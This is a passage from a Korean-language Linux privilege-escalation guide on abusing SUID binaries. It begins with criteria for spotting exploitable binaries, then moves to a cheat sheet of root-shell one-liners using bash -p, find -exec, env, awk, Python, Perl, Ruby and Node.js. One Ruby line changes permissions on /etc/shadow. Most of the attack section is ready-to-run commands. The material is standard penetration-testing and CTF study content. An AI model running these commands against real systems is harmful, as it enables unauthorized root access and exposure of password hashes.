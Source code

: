 ```bash
strace -f /경로/대상파일 2>&1 | grep -i "exec\|system"
```

### 판단 시 확인할 핵심 요소

- 소유자가 root이며 s 비트가 설정되어 있는가? (-rwsr-xr-x)
- 실행 가능한 바이너리인가?
- 시스템 명령어 실행 (system, exec, popen) 함수를 포함하는가?
- 상대 경로로 라이브러리나 파일을 로드하는가? (경로 조작 가능성)
- 사용자 입력을 처리하는 방식이 안전한가? (명령어 삽입 가능성)

## 3. 바이너리 별 권한 상승 기법

### 쉘 직접 획득 기법

```bash
# bash SUID 설정된 경우
/bin/bash -p    # -p 옵션: 권한 보존 모드로 실행

# dash/sh SUID 설정된 경우
/bin/dash -p
/bin/sh -p

# find 명령어
find . -exec /bin/sh -p \; -quit

# env 명령어
env /bin/sh -p

# awk 활용
awk 'BEGIN {system("/bin/sh -p")}'

# 쉘 스크립트 실행기
/path/to/suid_script.sh    # 직접 실행
```

### 인터프리터 활용 기법

```bash
# Python 활용
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/sh")'

# Perl 활용
perl -e 'use POSIX; setuid(0); exec "/bin/sh";'

# Ruby 활용
ruby -e 'require "fileutils"; FileUtils.chmod(0700, "/etc/shadow")'
ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'

# Node.js 활용
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

